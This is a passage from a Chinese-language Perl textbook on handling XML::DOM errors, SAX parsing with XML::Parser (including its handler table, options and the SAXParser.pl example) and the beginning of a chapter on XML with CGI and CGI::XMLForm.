$doc->printToFile("planets2.xml");
```
以上就是全部操作步骤。这是处理后的结果文件planets2.xml，注意其中的**<MASS>**元素已经被移除：
```xml
<?xml version="1.0"?>
<?xml-stylesheet type="text/xml" href="planets.xsl"?>
<PLANETS>
<PLANET>
<NAME>Mercury</NAME>
<DAY UNITS="days">58.65</DAY>
<RADIUS UNITS="miles">1516</RADIUS>
<DENSITY UNITS="(Earth = 1)">.983</DENSITY>
<DISTANCE UNITS="million miles">43.4</DISTANCE><!--At perihelion-->
</PLANET>
<PLANET>
<NAME>Venus</NAME>
<DAY UNITS="days">116.75</DAY>
<RADIUS UNITS="miles">3716</RADIUS>
<DENSITY UNITS="(Earth = 1)">.943</DENSITY>
<DISTANCE UNITS="million miles">66.8</DISTANCE><!--At perihelion-->
</PLANET>
<PLANET>
<NAME>Earth</NAME>
<DAY UNITS="days">1</DAY>
<RADIUS UNITS="miles">2107</RADIUS>
<DENSITY UNITS="(Earth = 1)">1</DENSITY>
<DISTANCE UNITS="million miles">128.4</DISTANCE><!--At perihelion-->
</PLANET>
</PLANETS>
```
### 错误处理
如果你解析的XML文档格式不规范，就会收到解析错误。在使用基于**XML::Parser**的**XML::DOM**模块开发的程序中（而**XML::Parser**又基于Expat解析器），你会看到类似下面的错误信息：
```perl
%perl errors.pl
Error: mismatched tag at line 12, column 6, byte 404 at D:/perl/site/lib/XML/Parser.pm line 168
```
这条错误信息算不上专业，很可能让用户感到困惑。我们至少可以修改它，加上出问题的文件名，同时去掉对Parser.pm的引用，修改后如下所示：
```perl
%perl error.pl
Error in planet.xml: mismatched tag at line 12, column 6
```
除了简单的解析错误外，**XML::DOM**模块还会触发**XML::DOM**中定义的错误常量对应的错误：

- 未知错误
- 索引大小错误
- DOM字符串大小错误
- 层次结构请求错误
- 文档不匹配错误
- 无效字符错误
- 数据不允许错误
- 不允许修改错误
- 未找到错误
- 不支持错误
- 属性已被占用错误

当这些**XML::DOM**特有的错误发生时，**XML::DOM**代码会像下面这样，传入错误码和错误消息调用**croak**：
```perl
croak new XML::DOM::DOMException (HIERARCHY_REQUEST_ERR, "node is ancestor of parent node")
```

由于**XML::DOM**在出现错误时会调用**croak**，因此你可以在代码中处理这些错误，就像处理**XML::Parser**产生的解析错误一样。你可以使用**eval**语句，在语句执行完成后检查**$@**中的错误信息。

下面是一个示例文件`errors.pl`，它修改了上一章中的**XML::DOM**解析程序`DOMParser.pl`，相比**XML::DOM**的标准流程，它的错误处理能力更强：
```perl
use XML::DOM;
my $parser = new XML::DOM::Parser;
eval {
  $file = "planet.xml";
  my $doc = $parser->parsefile ($file);
  createDisplay($doc , "");
};
if($@) {
  print "Error in $file: " . (substr $@, 0, index($@, ", byte")) . "\n";
  exit(1);
};
for ($loopIndex = 0; $loopIndex < $numberTextLines; $loopIndex++){
  print $textToDisplay[$loopIndex] . "\n";
}
```

```perl
sub createDisplay {
  eval {
    my $node = $_[0];
    my $indent = $_[1];
    if ($node == null) {
      return;
    }
    my $type = $node->getNodeType();
    if($type == DOCUMENT_NODE) {
      $textToDisplay[$numberTextLines] = $indent;
      $textToDisplay[$numberTextLines] .= "<?xml version=\"1.0\"?>";
      $numberTextLines++;
      createDisplay($node->getFirstChild(), "");
      last;
    }
    if($type == ELEMENT_NODE) {
      $textToDisplay[$numberTextLines] = $indent;
      $textToDisplay[$numberTextLines] .= "<";
      $textToDisplay[$numberTextLines] .= $node->getNodeName();
      $numberAttributes = 0;
      if($node->getAttributes() != null){
        $numberAttributes = $node->getAttributes()->getLength();
      }
      for ($loopIndex = 0; $loopIndex < $numberAttributes; $loopIndex++) {
        $attribute = ($node->getAttributes())->item($loopIndex);
        $textToDisplay[$numberTextLines] .= " ";
        $textToDisplay[$numberTextLines] .= $attribute->getNodeName();
        $textToDisplay[$numberTextLines] .= "=\"";
        $textToDisplay[$numberTextLines] .= $attribute->getNodeValue();
        $textToDisplay[$numberTextLines] .= "\"";
      }
      $textToDisplay[$numberTextLines] .= ">";
      $numberTextLines++;
      my @childNodes = $node->getChildNodes();
      if (@childNodes != null) {
        my $numberChildNodes = $#childNodes + 1;
        $indent .= " ";
        my $loopIndex;
        for ($loopIndex = 0; $loopIndex < $numberChildNodes; $loopIndex++ ) {
          createDisplay($childNodes[$loopIndex], $indent);
        }
      }
    }
    if($type == TEXT_NODE) {
      $textToDisplay[$numberTextLines] = $indent;
      $nodeText = $node->getNodeValue();
      if(($nodeText =~ /^[^ \n\t\r]/g) && length($nodeText) > 0) {
        $textToDisplay[$numberTextLines] .= $nodeText;
        $numberTextLines++;
      }
    }
    if($type == PROCESSING_INSTRUCTION_NODE) {
      $textToDisplay[$numberTextLines] = $indent;
      $textToDisplay[$numberTextLines] .= "<?";
      $textToDisplay[$numberTextLines] .= $node->getTarget();
      $PItext = $node->getData();
      $textToDisplay[$numberTextLines] .= " " . $PItext;
      $textToDisplay[$numberTextLines] .= "?>";
      $numberTextLines++;
      createDisplay($node->getNextSibling(), $indent);
    }
    if ($type == ELEMENT_NODE) {
      $textToDisplay[$numberTextLines] = substr($indent, 0, $indent.length() - 4);
      $textToDisplay[$numberTextLines] .= "</";
      $textToDisplay[$numberTextLines] .= $node->getNodeName();
      $textToDisplay[$numberTextLines] .= ">";
      $numberTextLines++;
      $indent .= " ";
    }
  };
  if($@) {
    print "Error: $@\n";
    exit(1);
  };
}
```

## 第26章 XML：修改文档内容与SAX解析
现在你已经可以通过**eval**语句捕获这类错误，如果需要的话，还可以为代码添加完整的错误处理函数：

## 使用SAX
正如本章深入探讨部分所述，SAX解析是解析XML文档的另一种方法。SAX解析是基于事件的，你需要为各种事件绑定处理函数，比如解析器遇到元素开头、元素结尾、处理指令时（本章后续的表格26.1列出了所有可能的处理函数类型），以此类推。

你可以参考本章后续的表格26.1，将处理函数的名称注册到SAX解析器中：

**表格26.1 XML::Parser处理函数**
| 处理函数 | 说明 |
| --- | --- |
| Init *(Expat)* | 该处理函数会在文档开始解析前被调用。 |
| Final *(Expat)* | 该处理函数会在解析完成后被调用。 |
| Start *(Expat, Element [, Attr, Val[...]])* | 识别到XML开始标签时会调用该处理函数。*Element*是XML元素的名称，每个属性会生成对应的*Attr*和*Val*键值对。 |
| End *(Expat, Element)* | 识别到XML结束标签时会调用该处理函数。 |
| Char *(Expat, String)* | 遇到非标记文本时会调用该处理函数。无论原文档中字符串的编码是什么，传入该处理函数的字符串均为UTF-8格式。 |
| Proc *(Expat, Target, Data)* | 遇到处理指令时会调用该处理函数。 |
| Comment *(Expat, Data)* | 遇到注释时会调用该处理函数。 |
| CdataStart *(Expat)* | 遇到CDATA节开头时会调用该处理函数。 |
| CdataEnd *(Expat)* | 遇到CDATA节结尾时会调用该处理函数。 |
| Default *(Expat, String)* | 遇到没有对应已注册处理函数的任意字符时，会调用该处理函数。*String*为对应文本，无论原文档的编码是什么，传入该处理函数的字符串均为UTF-8格式。 |
| Unparsed *(Expat, Entity, Base, Sysid, Pubid, Notation)* | 遇到未解析实体的声明时会调用该处理函数。*Entity*是实体名称，*Base*是URI基址，*Sysid*是系统标识符，*Pubid*是公共标识符，*Notation*是符号名称。 |
| Notation *(Expat, Notation, Base, Sysid, Pubid)* | 遇到符号声明时会调用该处理函数。*Notation*是符号名称，*Base*是URI基址，*Sysid*是系统标识符，*Pubid*是公共标识符。 |
| ExternEnt (_Expat, Base, Sysid, Pubid_) | 遇到外部实体时会调用该处理函数。**Base**是URI基址，**Sysid**是系统标识符，**Pubid**是公共标识符。注意：该处理函数需要返回代表外部实体内容的字符串，或是返回一个可读取的外部实体内容的已打开文件句柄。该处理函数也可以返回**undef**，这会产生解析错误。 |
| Entity (_Expat, Name, Val, Sysid, Pubid, Ndata_) | 遇到实体时会调用该处理函数。对于内部实体，**Val**参数存储实体的值（其余三个参数为未定义值）；对于外部实体，**Val**参数为未定义值，**Sysid**参数存储系统标识符，若指定了公共标识符则**Pubid**参数存储该值，**Ndata**参数存储未解析实体的符号。注意：如果该实体是参数实体，其名称会以"%"开头。 |
| Element (_Expat, Name, Model_) | 遇到元素声明时会调用该处理函数。**Name**是元素名称，**Model**是内容模型。 |
| Attlist (_Expat, Elname, Attname, Type, Default, Fixed_) | 遇到ATTLIST声明中的属性声明时会调用该处理函数。Elname是属性所属元素的名称，Attname是属性名称，Type是属性类型（以字符串形式传递）。**Default**是属性的默认值（"#REQUIRED"、"#IMPLIED"或带引号的字符串）。如果**Fixed**为真，则该属性为固定属性。 |
| Doctype (_Expat, Name, Sysid, Pubid, Internal_) | 遇到DOCTYPE声明时会调用该处理函数。Name是文档类型名称，Sysid是文档类型的系统标识符，Pubid是文档类型的公共标识符，Internal是内部子集，以字符串形式传递。Internal参数包含了内部子集中的所有空白、注释、处理指令和声明。 |
| XMLDecl (_Expat, Version, Encoding, Standalone_) | 遇到XML声明时会调用该处理函数。**Version**是版本号，**Encoding**包含编码字符串或为未定义值，**Standalone**的取值取决于XML文档是否被声明为独立文档，为真或假。 |

如下例所示，我向**XML::Parser**类的**new**方法传入了一个哈希，其中存储了各类处理函数的名称以及我希望它们调用的函数引用：
```perl
$parser = new XML::Parser(Handlers => {
  Start => \&start_handler,
  End => \&end_handler,
  Char => \&char_handler,
  Proc => \&proc_handler,
  XMLDecl => \&XMLDecl_handler,
  Final => \&final_handler
});
```


## 第26章 XML：修改文档内容与SAX解析
例如，这将**start_handler**函数注册到**Start**处理器上，这意味着解析器在遇到文档开头时会调用该函数。**XML::Parser**类是我们此前章节以及本章至今一直在使用的**XML::DOM**的基础类，且**XML::Parser**默认以SAX解析器的模式运行。
供参考，以下是**XML::Parser**的方法（更多细节可参阅**XML::Parser**的官方文档）：
- **Style**——该选项可用于创建指定类型的解析器。
  - **Debug**——该选项仅会以大纲形式输出文档内容。
  - **Subs**——每次元素开始时，会调用**Pkg**选项指定包中与元素同名的函数，传入的参数与**Start**处理器的调用参数一致；每次元素结束时，会调用同名后加下划线（_）的函数，传入的参数与**End**处理器的调用参数一致。
  - **Tree**——解析操作会返回该文档的解析树。关于这个较为复杂的树结构的工作原理，可参阅**XML::Parser**的官方文档。
  - **Objects**——该模式与**Tree**模式类似，但会为每个元素创建一个哈希。
  - **Stream**——该模式会查找并调用以下例程：**StartDocument**会在文档开头时被调用；**StartTag**会在每个开始标签处被调用，第二个参数为元素类型；**$_**变量会存储该标签，**%_**变量会存储该元素的属性值；**EndTag**会在每个结束标签处被调用，第二个参数为元素类型；**$_**变量会存储该结束标签；**Text**会在遇到包含文本内容的前后标签时被调用，文本内容存储在**$_**变量中；**PI**会在处理指令处被调用，处理指令的目标和数据会作为第二、第三个参数传入；**EndDocument**会在解析操作结束时被调用。
- **Handlers**——该选项是一个匿名哈希，其中的键指定处理器的类型，值为指向自定义函数的引用，用于处理对应处理器的事件。所有处理器函数传入的第一个参数，都是正在解析文档的Expat解析器的实例。
- **Pkg**——部分模式会引用该包中定义的函数，你可以通过该选项指定要使用的包。若未提供该选项，默认使用调用构造函数的包。
- **ErrorContext**——使用该选项时，错误会附带上下文信息报告，其值应为错误所在行上下需要展示的行数。
- **ProtocolEncoding**——该选项用于设置协议编码（默认无），内置编码如下：
  - UTF-8
  - ISO-8859-1
  - UTF-16
  - US-ASCII
- **Namespaces**——若将该选项设为真值，解析操作期间会执行命名空间处理。
- **NoExpand**——若将该选项设为真值，且同时设置了默认处理器，那么在遇到实体引用时会调用默认处理器。
- **Stream_Delimiter**——解析过程中，若某一行单独出现了该选项指定的字符串，解析操作会终止，等同于遇到文件末尾。
- **ParseParamEnt**——除非文档XML声明中的standalone属性被设为"yes"，否则将该选项设为真值时，允许读取外部DTD、解析并展开参数实体。
- **Non-Expat-Options**——该选项是一个匿名哈希，其中的键为不应传递给Expat的选项。
- **setHandlers**(TYPE, *HANDLER* [, TYPE, *HANDLER* […]])——你可以使用该方法注册解析器事件的处理器。
- **parse**(*SOURCE* [, *OPT => OPT_VALUE* […]])——解析文档。*SOURCE*参数可以是包含整个XML文档的字符串，也可以是**IO::Handle**类型的句柄。*SOURCE*参数后可传入**XML::Parser::Expat**的构造函数选项（以键值对形式指定）。
- **parsestring**——该方法和**parse**一致（用于向后兼容）。
- **parse_start**([*OPT => OPT_VALUE* […]])——该方法会创建并返回一个新的**XML::Parser::ExpatNB**实例。**XML::Parser::ExpatNB**是**XML::Parser::Expat**的子类，用于非阻塞访问Expat库，你也可以传入构造函数选项。**ExpatNB**对象支持以下方法：
  - **parse_more**——通过多次调用该方法（传入字符串参数）来增量解析文档。
  - **parse_done**——调用一次该方法（无传入参数）即可表明文档解析完成。
你可以在表26.1中找到**XML::Parser**允许的事件处理器。注意，所有处理器函数传入的第一个参数始终是当前Expat解析器实例的引用（本章不会使用该参数）。该表说明了各个处理器函数会接收哪些参数。

### SAX解析：SAXParser.pl示例
「说说看，」新手程序员问道，「SAX解析到底是什么？」
「就是XML简单应用程序接口，」你回答道，「实现起来很简单。」
「演示给我看！」新手程序员说道。
为了演示SAX解析的工作原理，本章接下来的部分我会创建一个新示例SAXParser.pl。该示例会解析上一章用过的planets.xml文档，和上一章使用DOMParser.pl的方式一致，只是这次会采用SAX解析的方式。
供参考，SAXParser.pl的代码如下：
```perl
use XML::Parser;
$numberTextLines = 0;
$parser = new XML::Parser(Handlers => {Start => \&start_handler, End => \&end_handler, Char => \&char_handler, Proc => \&proc_handler, XMLDecl => \&XMLDecl_handler, Final => \&final_handler});
$parser->parsefile("planets.xml");
sub XMLDecl_handler {
    $textToDisplay[$numberTextLines++] = "<?xml version=\"" . $_[1] . "\"?>";
}
sub start_handler {
    $textToDisplay[$numberTextLines] = $indent . "<$_[1]";
    for ($loop_index = 2; $loop_index <= $#_ - 1; $loop_index += 2){
        $textToDisplay[$numberTextLines] .= " " . $_[$loop_index] . "=\"" . $_[$loop_index + 1] . "\"";
    }
    $textToDisplay[$numberTextLines++] .= ">";
    $indent .= " ";
}
sub end_handler {
    $indent = substr($indent, 0, length($indent) - 4);
    $textToDisplay[$numberTextLines++] = $indent . "</$_[1]>";
}
sub char_handler {
    if($_[1] =~ /^[ \n\t\r]/g) {
        $textToDisplay[$numberTextLines++] = $indent . "$_[1]";
    }
}
sub proc_handler {
    $textToDisplay[$numberTextLines++] = "<?$_[1] $_[2]?>";
}
sub final_handler {
    for ($loopIndex = 0; $loopIndex < $numberTextLines; $loopIndex++){
        print $textToDisplay[$loopIndex] . "\n";
    }
}
```
我会在接下来的几个部分中逐步构建这个程序。

| 相关解决方案 | 所在页码 |
|-----------------|---------------|
| DOM解析：DOMParser.pl示例 | 1101 |

### 处理文档开头
「嗯，」新手程序员问道，「SAX解析要从哪入手啊？」
「这个嘛，」你回答道，「从捕获XML文档中的XML声明开始是个不错的选择。」
要使用SAX解析planets.xml，我会用到**XML::Parser**模块。具体来说，我会通过该模块的**new**方法创建一个新的解析器，传入一个匿名哈希，指明我想要用名为**XMLDecl_handler**的处理器函数处理XML声明（即在哈希中传入**XMLDecl**键），并将该函数的引用作为该键的值（关于**new**方法和**Handlers**参数的更多信息，可参阅前一节）：


## 第26章 XML：修改文档内容与SAX解析
use XML::Parser;
$parser = new XML::Parser(Handlers => {XMLDecl => \&XMLDecl_handler});

现在我来解析我们将使用的文档，也就是上一章中的planets.xml：
```perl
use XML::Parser;
$parser = new XML::Parser(Handlers => {XMLDecl => \&XMLDecl_handler});
$parser->parsefile("planets.xml");
```

此处理函数接收的参数可查阅本章前文的表26.1。第二个参数是XML版本号，因此我会将该版本号添加到@textToDisplay数组中，用于生成XML声明。我们在上一章的DOMParser.pl示例中使用过这个数组，为了记录数组中的存储位置，我还会沿用之前使用过的变量$numberTextLines。也就是说，XML声明处理函数XMLDecl_handler的代码如下：
```perl
sub XMLDecl_handler {
    $textToDisplay[$numberTextLines++] = "<?xml version=\"$_[1]\"?>";
}
```

在程序末尾（见上一节的代码清单），我会编写代码来显示@textToDisplay数组中的所有文本。

接下来，我会处理XML元素的开始部分。

### 处理元素的开始部分
“好的，”初级程序员说道，“那在SAX解析中，你如何处理开始标签呢？”
“你是指XML元素的开始部分？”你反问道。
“这很简单——用Start事件处理器就行。”

当**XML::Parser**检测到元素的开始时，会调用你用Start关键字注册的事件处理器。该事件处理器接收的参数可查阅表26.1；接下来我会将该元素的名称（作为第二个参数传入）添加到@textToDisplay文本数组中，生成对应的XML开始标签，方式如下：注意，我还会设置一个缩进字符串$indent，用来清晰展示文档的层级结构：
```perl
use XML::Parser;
$parser = new XML::Parser(Handlers => {Start => \&start_handler, XMLDecl => \&XMLDecl_handler});
```

### 处理属性
“哎，”初级程序员问道，“如果XML元素包含*属性*怎么办呢？”
“非常简单，”你说，“这些属性也会在**Start**事件处理器中一起传给你。”
**XML::Parser**的代码会在**Start**事件处理器中，将属性的名称和值分别作为第三、第四个参数，第五、第六个参数，依此类推传给你，具体可查阅表26.1。要处理元素中的属性，我会遍历所有这类名称/值对，并将它们添加到SAXParser.pl中的**@textToDisplay**数组中：
```perl
use XML::Parser;
$parser = new XML::Parser(Handlers => {Start => \&start_handler, XMLDecl => \&XMLDecl_handler});
$parser->parsefile("planets.xml");
```

```perl
sub start_handler {
    $textToDisplay[$numberTextLines] = $indent . "<$_[1]";
    for ($loop_index = 2; $loop_index <= $#_ - 1; $loop_index += 2){
        $textToDisplay[$numberTextLines] .= " " . $_[$loop_index] . "=\"". $_[$loop_index + 1] . "\"";
    }
    $textToDisplay[$numberTextLines++] .= ">";
    $indent .= " ";
}
```

至此，我们已经用**XML::Parser**处理了XML元素的开始部分以及元素内的属性。

接下来，我们来看看如何处理每个元素的结束部分。

### 处理元素的结束部分
“哎呀，”初级程序员说道，“我们已经处理了SAXParser.pl中XML元素的开始部分，还有每个元素里的属性。”
“如果有的话。”你应道。
“没错，”初级程序员说，“但我们还没处理每个元素的结束部分啊？”

要处理每个XML元素的结束部分，你只需要使用**End**处理器；该处理器会接收表26.1中列出的参数。具体来说，我只需为之前生成的开始标签添加对应的结束标签，并从缩进字符串中减去4个空格，**End**处理函数**end_handler**的代码如下：
```perl
use XML::Parser;
$parser = new XML::Parser(Handlers => {
    Start => \&start_handler,
    End => \&end_handler,
    XMLDecl => \&XMLDecl_handler
});
$parser->parsefile("planets.xml");
```

```perl
sub end_handler {
    $indent = substr($indent, 0, length($indent) - 4);
    $textToDisplay[$numberTextLines++] = $indent . "</$_[$1]>";
}
```

### 处理文本内容
“呃，”初级程序员说道，“我觉得你漏了什么。你已经处理了SAXParser.pl中的XML开始和结束标签，但元素里的文本内容怎么办呢？”
“没问题，”你说，“你只需要用**Char**处理器就行。”

要用**XML::Parser**处理XML文档中的文本内容，你可以使用**Char**处理函数。实际文本内容会作为该函数的第二个参数传入，具体可查阅表26.1。也就是说，我可以像下面这样将元素的文本内容添加到**@textToDisplay**数组中——注意，我会排除纯空白文本（在XML中指制表符、空格、换行符和换页符），以去除planets.xml中的缩进空白：
```perl
use XML::Parser;
$parser = new XML::Parser(Handlers => {
    Start => \&start_handler,
    End => \&end_handler,
    Char => \&char_handler,
    Proc => \&proc_handler,
    XMLDecl => \&XMLDecl_handler
});
$parser->parsefile("planets.xml");
```

### 处理处理指令
“那处理指令呢？”初级程序员问道，“你要如何在SAXParser.pl中处理它们？”
“用**Proc**事件处理器就行。”你说。

要捕获XML处理指令，你需要结合**XML::Parser**使用**Proc**事件处理器。该处理函数接收的参数可查阅表26.1。处理指令的名称会作为第二个参数传入该函数，其余部分则作为第三个参数传入。基于以上说明，我在解析planets.xml时，可以像下面这样将处理指令添加到SAXParser.pl正在构建的文本数组中：
```perl
use XML::Parser;
$parser = new XML::Parser(Handlers => {
    Start => \&start_handler,
    End => \&end_handler,
    Char => \&char_handler,
    Proc => \&proc_handler,
    XMLDecl => \&XMLDecl_handler
});
$parser->parsefile("planets.xml");
```

```perl
sub proc_handler {
    $textToDisplay[$numberTextLines++] = "<?$_[1] $_[2]?>";
}
```

### 处理文档结束部分
“你漏了什么，”初级程序员说，“你在SAXParser.pl程序中一直在解析planets.xml，把结果存到**@textToDisplay**数组里，但什么时候才显示这个数组里的文本啊？”
“这很简单，”你微笑着说，“当解析器到达文档末尾时就可以了。”

当**XML::Parser**解析器到达XML文档末尾时，会调用**Final**事件处理器，我们可以在该处理函数中显示存储在**@textToDisplay**数组中的完整解析结果：
```perl
use XML::Parser;
$parser = new XML::Parser(Handlers => {
    Start => \&start_handler,
    End => \&end_handler,
    Char => \&char_handler,
    Proc => \&proc_handler,
    XMLDecl => \&XMLDecl_handler,
    Final => \&final_handler
});
$parser->parsefile("planets.xml");
```

```perl
sub final_handler {
    for ($loopIndex = 0; $loopIndex < $numberTextLines; $loopIndex++){
        print $textToDisplay[$loopIndex] . "\n";
    }
}
```

下一节我会运行这个程序，展示实际显示的内容。

### 运行SAXParser.pl
运行SAXParser.pl程序时，它会使用**XML::Parser**中的代码解析planets.xml并展示该文档。运行结果如下——你可以看到正确的XML声明、处理指令、元素、属性以及元素内容，所有内容都缩进得当：
```perl
%perl saxparser.pl
<?xml version="1.0"?>
<?xml-stylesheet type="text/xml" href="planets.xsl"?>
<PLANETS>
    <PLANET>
        <NAME> Mercury </NAME>
        <MASS UNITS="(Earth = 1)"> .0553 </MASS>
        <DAY UNITS="days"> 58.65 </DAY>
        <RADIUS UNITS="miles"> 1516 </RADIUS>
        <DENSITY UNITS="(Earth = 1)"> .983 </DENSITY>
        <DISTANCE UNITS="million miles"> 43.4 </DISTANCE>
    </PLANET>
    <PLANET>
        <NAME> Venus </NAME>
        <MASS UNITS="(Earth = 1)"> .815 </MASS>
        <DAY UNITS="days"> 116.75 </DAY>
        <RADIUS UNITS="miles"> 3716 </RADIUS>
        <DENSITY UNITS="(Earth = 1)"> .943 </DENSITY>
        <DISTANCE UNITS="million miles"> 66.8 </DISTANCE>
    </PLANET>
    <PLANET>
        <NAME> Earth </NAME>
        <MASS UNITS="(Earth = 1)"> 1 </MASS>
```


<DAY UNITS="天"> 1 </DAY>
<RADIUS UNITS="英里"> 2107 </RADIUS>
<DENSITY UNITS="(地球 = 1)"> 1 </DENSITY>
<DISTANCE UNITS="百万英里"> 128.4 </DISTANCE>
</PLANET>
</PLANETS>
以上就是全部内容——我们已经让SAX解析正式投入使用了。这个程序运行成功。

## 使用SAX解析导航XML文档
初级程序员说：“我明白你可以用SAX解析轻松解析XML文档，但用DOM解析能实现的其他操作呢，比如在XML文档中导航？这个能做到吗？”
你答道：“勉强可以。在DOM节点树中，你可以使用**getFirstChild**、**getLastSibling**之类的方法在树中上下移动，但SAX解析无法做到这一点，因为没有可供你使用和导航的节点树。你唯一能做的就是等待SAX解析器把你想要导航的项目传递给你。下面举个例子。”
本章前面部分，我曾用DOM解析定位并显示customers.xml中第二个客户的姓名：
``` <?xml version = "1.0"?> <DOCUMENT> <CUSTOMER TYPE="good"> <NAME> <LAST_NAME>Thomson</LAST_NAME> <FIRST_NAME>Susan</FIRST_NAME> </NAME> <DATE>September 1, 2001</DATE> <ORDERS> <ITEM> <PRODUCT>Video tape</PRODUCT> <NUMBER>5</NUMBER> <PRICE>$1.25</PRICE> </ITEM> <ITEM> <PRODUCT>Shovel</PRODUCT> <NUMBER>2</NUMBER> <PRICE>$4.98</PRICE> </ITEM> </ORDERS> </CUSTOMER> <CUSTOMER TYPE="poor"> <NAME> <LAST_NAME>Smithson</LAST_NAME> <FIRST_NAME>Nancy</FIRST_NAME> </NAME> <DATE>September 2, 2001</DATE> <ORDERS> <ITEM> <PRODUCT>Ribbon</PRODUCT> <NUMBER>12</NUMBER> <PRICE>$2.95</PRICE> </ITEM> <ITEM> <PRODUCT>Goldfish</PRODUCT> <NUMBER>6</NUMBER> <PRICE>$1.50</PRICE> </ITEM> </ORDERS> </CUSTOMER> </DOCUMENT> ```
使用SAX解析也能实现同样的功能，但这意味着需要等到目标客户的姓被传递给我们才行。下面是我在名为navXMLSAX.pl的程序中实现这一功能的方式：
``` use XML::Parser; $parser = new XML::Parser(Handlers => {Start => \&start_handler, Char => \&char_handler}); $parser->parsefile("customers.xml"); $customer = 0; $data_ok = 0; sub start_handler { $data_ok = 0; if ($_[1] eq "CUSTOMER"){ $customer++; } if ($customer == 2){ if($_[1] eq "FIRST_NAME"){ $data_ok++; } } } sub char_handler { if(($_[1] =~ /^[ \n\t\r]/g) && $data_ok){ print "First name: $_[1]\n"; } } ```
运行该程序的结果如下，结果表明你确实可以用SAX解析在XML文档中“导航”（不过请注意，除非你在SAX解析器解析文档时保存传递给你的数据，否则反向导航，也就是逆着XML文档顺序导航是不可能的）：
``` %perl navXMLSAX.pl First name: Nancy ```

## 处理SAX解析中的错误
本章前面部分，我们了解了如何处理DOM解析中的错误，不过你也可以处理SAX解析中的错误。然而，此处你只能处理Expat（XML::Parser模块所基于的解析器）抛出的错误。XML::Parser模块不会抛出额外的错误。如果出现Expat错误，就会调用die语句。你可以用eval语句来处理die调用，就像我们本章前面在errors.pl中所做的那样。下面是在我们刚刚完成的SAXParser.pl示例基础上构建的新SAX示例errorsSAX.pl的实现方式，该示例用于处理解析错误：
``` use XML::Parser; $numberTextLines = 0; $parser = new XML::Parser(Handlers => {Start => \&start_handler, End => \&end_handler, Char => \&char_handler, Proc => \&proc_handler, XMLDecl => \&XMLDecl_handler, Final => \&final_handler}); $file = "planet.xml"; eval { $parser->parsefile($file); }; if($@) { print "Error in $file: " . (substr $@, 0, index($@, ", byte")) . "\n"; exit(1); }; sub XMLDecl_handler { $textToDisplay[$numberTextLines++] = "<?xml version=\"" . $_[1] . "\"?>"; } sub start_handler { $textToDisplay[$numberTextLines] = $indent . "<" . $_[1]; for ($loop_index = 2; $loop_index <= $#_ - 1; $loop_index += 2){ $textToDisplay[$numberTextLines] .= " " . $_[$loop_index] . "=\"" . $_[$loop_index + 1] . "\""; } $textToDisplay[$numberTextLines++] .= ">"; $indent .= " "; } sub end_handler { $indent = substr($indent, 0, length($indent) - 4); $textToDisplay[$numberTextLines++] = $indent . "</" . $_[1] . ">"; } sub char_handler { if($_[1] =~ /^[^ \n\t\r]/g) { $textToDisplay[$numberTextLines++] = $indent . "$_[1]"; } } sub proc_handler { $textToDisplay[$numberTextLines++] = "<?" . $_[1] . " " . $_[2] . "?>"; } sub final_handler { for ($loopIndex = 0; $loopIndex < $numberTextLines; $loopIndex++){ print $textToDisplay[$loopIndex] . "\n"; } } ```
现在运行这个程序，你会看到包含正在解析的文件名的错误信息，且会排除仅属于XML::Parser模块的专属细节：
``` C:\perl\xml>perl errorsSAX.pl Error in planet.xml: mismatched tag at line 12, column 6 ```

## 第27章 XML：CGI、SOAP与WML
| 如果您需要立即解决以下问题： | 请参见页码： |
| --- | --- |
| 使用XML结合CGI | 1176 |
| 设置XML的MIME类型 | 1182 |
| 在数据库中存储数据 | 1182 |
| 从数据库检索数据 | 1184 |
| CGI::XMLForm编写XML | 1186 |
| CGI::XMLForm查询XML | 1187 |
| 使用简单对象访问协议（SOAP） | 1189 |
| WML：创建超链接 | 1193 |
| WML：处理文本输入 | 1194 |
| WML：使用选择元素 | 1197 |
| WML：创建表格 | 1201 |
| WML：创建计时器 | 1202 |
| WML：处理图像 | 1204 |
| WML：对接Perl | 1205 |
| WML：使用表单对接Perl | 1208 |
| WML：向Perl传递多个参数 | 1209 |

## 深入解析
在本章中，我们将了解将Perl与XML结合使用的三个方向：CGI与XML、简单对象访问协议（SOAP）以及无线标记语言（WML）。随着越来越多应用开始使用XML进行结构化数据交换，使用XML结合CGI的重要性正日益提升。本章我们会编写一个数据库程序，用XML来传递其数据。SOAP同样也是关于在互联网上使用XML进行数据交换的技术，但它使用特定的*SOAP消息*格式，你可以将这类消息存储在HTTP头中。SOAP如今正变得越来越流行，非常值得在本章中介绍——不幸的是，这是一个非常庞大的主题，目前已有大量相关书籍出版，这意味着我们在这里只能做概述性介绍（我差点想说“尝鲜”，但考虑到我们讨论的是SOAP，“概述”是更合适的词）。无线标记语言（WML）目前在XML领域十分火爆。WML面向个人数字助理（PDA）、掌上电脑甚至手机等无线互联网设备。本章我们会了解WML，以及如何将其与Perl对接，这样用户就可以在WML页面中输入数据，由Perl脚本读取该数据并返回对应的WML文档。接下来我将详细介绍这些主题。

## XML与CGI
前两章我们从多个角度研究了XML，也已经知道如何从CGI的角度处理XML，不过仍有一些问题需要介绍。例如，如果你要向微软Internet Explorer浏览器发送XML，就必须确保将MIME类型设置为“application/xml”，方式如下：
``` use CGI; $co = new CGI; print $co->header(-type=>"application/xml"); print "<?xml version = \"1.0\"?>"; ```


如果你不以此方式显式设置MIME类型，Internet Explorer会将你的XML文档识别为HTML文档。在本章中，我将编写一个CGI脚本，该脚本支持在服务器端的数据库中存储和检索数据，并可通过XML文档与用户进行交互。

## CGI::XMLForm模块
Perl并未内置太多专门针对XML和CGI问题的模块，但接下来我将介绍其中之一，即**CGI::XMLForm**模块。你需要从CPAN下载该模块，因为它并未包含在Perl标准发行版中。你可以使用该模块基于HTML表单中的值生成XML，也可以使用W3C *可扩展样式表语言转换（XSLT）* 风格的查询来检索XML数据。实现上述功能主要依靠两个函数，分别是**toXML**和**readXML**。

## 使用toXML
通过**toXML**方法，你可以基于HTML表单中的数据生成XML。HTML控件的名称用于指定要生成的XML结构，用户在该控件中输入的值则用于指定要存入该XML的数据。例如，假设你有一个**<input>**元素，用于创建如下HTML文本输入框：
```html
<input type="text" name="/document/topic/section/text">
```
再假设用户在该文本框中输入了文本“Hello”。当外层HTML表单提交到CGI脚本时，**toXML**方法会生成如下XML。注意用户输入的文本会成为最内层元素的内容：
```xml
<document>
  <topic>
    <section>
      <text>Hello</text>
    </section>
  </topic>
</document>
```
通过这种方式，你可以根据用户自定义的HTML表单生成XML。
